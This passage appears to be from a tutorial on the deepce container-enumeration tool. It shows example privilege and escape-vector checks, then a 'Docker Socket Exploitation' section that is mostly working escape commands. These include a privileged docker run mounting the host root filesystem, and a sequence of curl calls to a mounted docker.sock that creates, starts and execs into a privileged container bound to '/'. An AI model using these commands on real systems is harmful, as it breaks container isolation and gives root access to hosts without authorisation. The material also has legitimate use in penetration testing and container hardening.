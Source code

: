 #### Privilege Assessment

```bash
# Check for dangerous settings
./deepce.sh --check-privileges

# Example output:
# [+] Container running in privileged mode
# [+] SYS_ADMIN capability detected
# [+] AppArmor profile disabled
# [+] Seccomp disabled
# [+] CAP_NET_RAW capability available
```

#### Escape Vector Identification

```bash
# Identify potential escape paths
./deepce.sh --find-vectors

# Example output:
# [+] Docker socket mounted: /var/run/docker.sock
# [+] Host /etc directory mounted: /host/etc
# [+] Privileged devices mounted: /dev
# [+] Docker.sock found, possible to escape container
```

### Example: Docker Socket Exploitation

When Deepce identifies a mounted Docker socket, you can escape the container:

```bash
# Method 1: Using Docker client if available
docker -H unix:///var/run/docker.sock run --rm -it --privileged --net=host -v /:/host alpine /bin/sh

# Method 2: Using curl if Docker client is unavailable
# Create new container with host filesystem mounted
curl -s -X POST -H "Content-Type: application/json" \
  --unix-socket /var/run/docker.sock \
  -d '{"Image":"alpine","Cmd":["/bin/sh"],"Binds":["/:/host"],"Privileged":true}' \
  http://localhost/containers/create > /tmp/response
CONTAINER_ID=$(cat /tmp/response | jq -r .Id)

# Start the container
curl -s -X POST --unix-socket /var/run/docker.sock \
  http://localhost/containers/$CONTAINER_ID/start

# Execute commands in new container
curl -s -X POST -H "Content-Type: application/json" \
  --unix-socket /var/run/docker.sock \
  -d '{"AttachStdin":true,"AttachStdout":true,"AttachStderr":true,"Cmd":["chroot","host"]}' \
  http://localhost/containers/$CONTAINER_ID/exec > /tmp/execid
EXEC_ID=$(cat /tmp/execid | jq -r .Id)

# Start the command
curl -s -X POST -H "Content-Type: application/json" \
  --unix-socket /var/run/docker.sock \
  http://localhost/exec/$EXEC_ID/start
```
